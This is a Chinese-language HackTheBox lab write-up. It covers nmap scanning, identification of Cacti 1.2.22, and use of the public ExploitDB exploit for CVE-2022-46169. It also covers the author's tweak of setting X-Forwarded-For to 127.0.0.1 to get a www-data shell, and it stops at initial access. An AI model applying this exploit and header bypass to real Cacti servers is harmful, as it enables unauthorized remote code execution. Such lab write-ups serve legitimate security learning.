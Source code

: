```yaml
---
tags:
  - HTB/Linux
  - HTB/Easy
---
```


考完CEH，久违地回来打一打靶。都有点忘了怎么操作了……

---

## 扫描

```bash
sudo nmap -n -Pn -sS -p 1-10000 --min-rate=5000 10.10.11.211
sudo nmap -v -n -Pn -sV -O -p 22,80 --script=vuln 10.10.11.211 -oA 10.10.11.211
```

*不知道为什么这次NSE脚本扫描非常非常慢，然后其实也没太多有用的信息。*

- 22
- 80


## 漏洞分析

### 80端口

访问目标网站，是个登陆界面。简单试了下单引号登陆，简单地报错了。留意到页面下方写了行 **Version 1.2.22 | (c) 2004-2023 - The Cacti Group**。

于是先尝试本地搜一波，`searchsploit cacti` 发现这个：
> Cacti v1.2.22 - Remote Command Execution (RCE) &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; | php/webapps/51166.py


## Initial Access

### PoC ([CVE-2022-46169](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/))

#### 方法1：ExploitDB 脚本

开搞，复制脚本到当前目录：`searchsploit -m 51166`

不过脚本运行起来一直拿不到shell……

谷歌一下倒是也有其他exp，但是就是想弄明白为什么ExploitDB这个exp不行。

然后[这篇文章](https://blog.csdn.net/qq_58869808/article/details/130482162)给了我提示，看来要理解漏洞原理啊……更改了一下exp脚本中的 `'X-Forwarded-For': f'{local_cacti_ip}'`，将其直接指定为 `'X-Forwarded-For': f'127.0.0.1'`。

运行后成功getshell：
```bash
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
